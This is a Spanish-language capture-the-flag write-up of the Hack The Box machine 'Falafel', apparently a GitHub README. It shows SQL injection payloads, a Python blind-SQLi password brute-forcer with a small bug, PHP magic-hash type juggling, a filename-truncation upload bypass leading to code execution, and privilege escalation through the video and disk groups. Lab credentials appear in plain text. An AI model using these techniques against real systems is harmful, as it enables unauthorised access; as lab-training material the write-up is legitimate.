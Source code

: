 # Falafel-htb

## NMAP 

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/ffd07a22-4230-406d-b6bc-02d705ac03d7)


En el puerto 80 se encuentra un portal con un login si intentamos ingresar datos para ver como se comporta nos damos cuenta que existe el usuario admin e incluso se pueden enumerar usuarios.

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/00e9573b-abce-4d5e-a3ae-91c80a12df17)

Tambien nos damos cuenta que el portal es vulnerable sql injection. Se puede usar este mensaje para una blind SQLI.

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/59e9e1b7-fadd-4ba3-9f74-8290b9203e93)


```
admmin' or 1=1-- -
admin' order by 100-- - # Manda error lo que seria un indicador claro que si es vulnerable.
```

Para aprovecharlo si esta bien nos va a mostrar el otro mensaje

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/03bb7c46-b5b9-44a1-9e79-644676ae6530)

```
admin' and substring(username,1,1)='a'-- -

Saldra mensaje de que el usuario es correcto pero no el password si esta mal pone Try again.

admin' and substring(username,1,1)='a'-- -
```

Script s4vitar

```
#!/usr/bin/python3


from pwn import *
import requests,time, sys, pdb, signal, string

def def_handler(sig, frame):
	print("\n\n[!] Saliendo...\n")
	sys.exit(1)


#Ctrl + C


signal.signal(signal.SIGINT, def_handler)

# Variables globales

login_url="http://10.129.229.139/login.php"
characters=string.digits + e



def makeSQLI():

	p1 = log.progress("SQLI")
	p1.status("Iniciando  proceso de fuerza bruta")	
	time.sleep(2)


	p2 = log.progress("Password")
	password = ""

	for position in range(1,50):
		
		for character in characters:
			post_data = { 'username': "admin' and substring(password,%d,1)='%s'-- -" % (position, character),
							'password': 'test'
							}

			p1.status(post_data['username'])

			r = requests.post(login_url, data=post_data)

			if "Try again.." not in r.text:
				password += character
				p2.status(password)
				break





if __name__ == '__main__':
	makeSQLI()




```

## PHP Juggling 

Una vez que sacamos el hash del usuario admin probamos esta vulnerabiidad. Esta vulnerabilida se proboca por no usar tres = en una comparacion entonces cosas que no son iguales al compararlas mal si son iguales por ejemplo:

```
  $ echo -n 240610708 | md5sum
    0e462097431906509019562988736854  -
    $ echo -n QNKCDZO | md5sum
    0e830400451993494058024219903391  -
    $ echo -n aabg7XSs | md5sum
    0e087386482136013740957780965295  -
```

El hash osea la contraseña del usuario admin empieza con 0e  entonces buscamos una colicion que empiece con 0e php se va a equivocar y nos va a tomar cualquiera de las contraeeñas de arriba como una contraseña valida una vez que el usuario ingrese la contraseña y este se hashee.

## RCE

El limite de tamaño de nombre de un archivo en Linux es 255 y siempre que tengas wget e visto que puede tener este tipo de vulnerabilidades. entonces lo qu ehace es que corta el nombre del archivo a los 232 bytes mas 4 osea apartir del 232 puedes poner el .php y para pasar la proteccion de solo subir imagenes pues pones .php.jpg.


![image](https://github.com/gecr07/Falafel-htb/assets/63270579/efcfecac-9ce4-4d31-aa2e-e67f2d465d67)


```
http://10.10.15.72/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.JPG
```


![image](https://github.com/gecr07/Falafel-htb/assets/63270579/46fbdf73-385b-4c98-9f74-1a2ab7bf714d)


Para saber los limites utilice la herramienta para exploit de metasploit.

```
# Primero esta
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 255

# Y para saber el offset donde se corta esta

/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 255 -q h7Ah 
```

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/d2497383-dfbb-475a-ad47-456496dc1a54)


## Priv escalation 

Ya una vez dentro revisamos los datos de la conexion a la base de datos y nos da la contraseña del usuario moshe

```

moshe

falafelIsReallyTasty

```


![image](https://github.com/gecr07/Falafel-htb/assets/63270579/8043397d-6b3d-4466-9e2a-3c8041039ef4)

Como este usuario pertenece al grupo video

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/5d9214dc-7bfa-431b-be9d-433fd4d1e9b2)

Es posible que puedan tomar capturas de pantalla. Usamos el w para ver que usuario esta loggeado

```
w
```
El archivo para sacar una captura de pantalla la pasamos a nuestro equipo y la abrimos como RAW se prueban varios formatos RAw y la abrimos con un editor tipo adobe photoshop pero de linux llamdo gimp

```
cat /dev/fb0 > out
gimp
```

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/ea171245-8c8f-41d0-94f9-53bb35927cda)


Para que nos muestre las coordenadas correctas se tiene que sacar el size:

```
cat /dev/fb0 > /tmp/screen.raw
cat /sys/class/graphics/fb0/virtual_size
```

COn lo cual ya tenemos ahora las credenciales del usuario yossi:

```

yossi

MoshePlzStopHackingMe!

```

### debugfs

debugfs es un sistema de archivos especial disponible en el núcleo Linux desde la versión 2.6.10-rc3.​ Si te encuentras en el grupo disk practicamente tienes acceso a cualquier directorio del sistema

```
debugfs /dev/sda1
```

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/195c68e7-1258-4bc4-8d4d-f8d0c76ce5a6)

Ya tenemos acceso a lo que sea del sistem

![image](https://github.com/gecr07/Falafel-htb/assets/63270579/88ad209e-18b2-431a-a7aa-c29f1e1ad3e4)

Podemos leer la flag...


# Bibliografia

Los grupos que son peligrosos tal como video o como disk todo lo puedes encontrar aqui

> https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe



































































